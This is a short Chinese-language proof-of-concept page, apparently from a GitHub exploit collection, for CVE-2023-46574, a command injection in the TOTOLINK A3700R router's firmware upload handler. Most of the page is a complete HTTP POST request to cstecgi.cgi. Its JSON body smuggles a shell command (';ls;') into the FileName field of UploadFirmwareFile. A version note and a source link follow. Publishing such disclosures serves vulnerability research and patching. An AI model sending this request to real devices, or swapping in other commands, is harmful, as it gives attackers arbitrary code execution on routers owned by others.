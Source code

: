 
## TOTOLINK A3700R命令执行漏洞CVE-2023-46574
TOTOLINK A3700R v9.1.2u.6165_20211012版本存在命令执行漏洞，攻击者可利用该漏洞通过UploadFirmwareFile函数的FileName参数执行任意代码。   

## 影响版本：
```
TOTOLINK A3700R v9.1.2u.6165_20211012
```


## poc
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
```
![image](https://github.com/wy876/POC/assets/139549762/37a0b1f8-101e-4642-b9fa-3fda6f31f079)

## 来源
- https://github.com/OraclePi/repo/blob/main/totolink%20A3700R/1/A3700R%20%20V9.1.2u.6165_20211012%20vuln.md
